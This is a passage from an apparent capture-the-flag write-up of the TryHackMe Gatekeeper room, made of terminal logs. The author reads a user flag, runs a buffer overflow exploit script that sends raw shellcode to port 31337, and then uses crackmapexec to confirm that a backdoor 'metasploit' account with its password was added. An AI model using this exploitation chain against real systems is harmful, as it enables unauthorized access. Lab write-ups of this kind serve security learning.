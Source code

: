 ```
C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!

```



also the bat file that I want to view. 

```
C:\Users\natbat\Desktop>type gatekeeperstart.bat
type gatekeeperstart.bat
@echo off
:start 
start /w C:\Users\natbat\Desktop\gatekeeper.exe
::Wait 90 seconds before restarting.
TIMEOUT /T 5
GOTO:Start
```

Seems like it will restart gatekeeper even if it crashes

Also can still connect via netcat:

```
└─$ nc 10.10.236.87 31337
Hello !!!

```

So I will try and send the addusr script and check if my user is added (note this will only work if the gatekeeper is running as admin)

```
└─$ sudo crackmapexec smb 10.10.236.87 -u 'metasploit' -p 'Metasploit$1'
[sudo] password for nith: 
SMB         10.10.236.87    445    GATEKEEPER       [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:GATEKEEPER) (domain:gatekeeper) (signing:False) (SMBv1:True)
SMB         10.10.236.87    445    GATEKEEPER       [+] gatekeeper\metasploit:Metasploit$1 
                                                                                                                                                                                                                                             
┌──(nith㉿kastle)-[~/CTF/THM/GateKeeper]
└─$ ./adduser.py 
%tU(뢚ThGcp"f6a@!pe&EMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYt$[+ɱG1CCe *BB6s12$;1ɰZr.ڊn,mNBl<@j&ZƇɪ m4p}    >c< >#u5Z[;k?G#w4,mwn|Hi᧓lwnFV  QGm
                      5*lRQc7_fi"UboK"35٢R@~)z4HR!)

Traceback (most recent call last):
  File "./adduser.py", line 59, in <module>
    data = s.recv(1024)
socket.error: [Errno 104] Connection reset by peer
                                                                                                                                                                                                                                             
┌──(nith㉿kastle)-[~/CTF/THM/GateKeeper]
└─$ sudo crackmapexec smb 10.10.236.87 -u 'metasploit' -p 'Metasploit$1'                                                                                 SMB         10.10.236.87    445    GATEKEEPER       [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:GATEKEEPER) (domain:gatekeeper) (signing:False) (SMBv1:True)
SMB         10.10.236.87    445    GATEKEEPER       [+] gatekeeper\metasploit:Metasploit$1 
                                                    
```
